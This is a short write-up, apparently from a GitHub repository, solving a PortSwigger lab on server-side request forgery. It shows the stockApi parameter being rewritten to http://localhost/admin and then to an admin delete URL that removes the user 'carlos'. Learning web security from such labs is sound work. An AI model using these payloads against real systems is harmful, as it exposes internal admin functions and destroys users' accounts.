 ## Question:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/fc4e07ed-941f-4f1f-9993-a12447c6c6e6)

## Solution:

Click on to one product and using burp intercept the request made, we can see stockapi

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/15177b5c-10c4-4963-928b-97bc7b746b8a)

change the stock api to ```http://localhost/admin```

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/191a0ef8-ce0f-40db-97fd-252e06222c87)

To delete the user carlos change the stockapi as ```http://localhost/admin/delete?username=carlos```

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/dd1e96a9-aa94-4762-adb5-ee85dc3442d0)

Lab Solved

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/a29a81d5-ee68-4d3a-ad8d-f59da87df612)


